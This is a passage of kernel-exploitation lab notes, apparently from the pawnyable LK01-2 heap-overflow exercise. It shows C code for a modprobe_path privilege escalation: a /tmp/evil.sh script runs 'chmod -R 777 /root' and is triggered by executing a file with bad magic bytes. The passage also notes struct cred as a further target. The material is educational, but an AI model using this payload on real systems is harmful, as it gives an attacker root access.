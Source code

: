 ~~~c
  } 
}
~~~

### Prepare and trigger the shell script

~~~c
system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
system("chmod +x /tmp/evil.sh");
system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
system("chmod +x /tmp/pwn");
system("/tmp/pwn"); // call modprobe_path
~~~

See: [src/05.heapbof-aaw/heapbof-aaw.c](https://github.com/cpey/pawnyable/blob/main/LK01-2/src/05.heapbof-aaw/heapbof-aaw.c)

### Other functions executing system commands

- orderly_poweroff() [kernel/reboot.c]
- orderly_reboot() [kernel/reboot.c]

See: [src/05.heapbof-aaw/poweroff_and_reboot_cmds.md](https://github.com/cpey/pawnyable/blob/main/LK01-2/src/05.heapbof-aaw/notes/poweroff_and_reboot_cmds.md)

## struct cred

A pointer to `struct cred` is found within the `task_struct`:

~~~c
 727  struct task_struct {
...
1040    /* Process credentials: */
1041  
1042    /* Tracer's credentials at attach: */
1043    const struct cred __rcu     *ptracer_cred;
1044  
1045    /* Objective and real subjective task credentials (COW): */
1046    const struct cred __rcu     *real_cred;
1047  
1048    /* Effective (overridable) subjective task credentials (COW): */
1049    const struct cred __rcu     *cred;
1050  
1051  #ifdef CONFIG_KEYS
1052    /* Cached requested key. */
1053    struct key          *cached_requested_key;
1054  #endif
1055  
1056    /*
1057     * executable name, excluding path.
1058     *
1059     * - normally initialized setup_new_exec()
1060     * - access it with [gs]et_task_comm()
1061     * - lock it with task_lock()
1062     */
1063    char                comm[TASK_COMM_LEN];
~~~
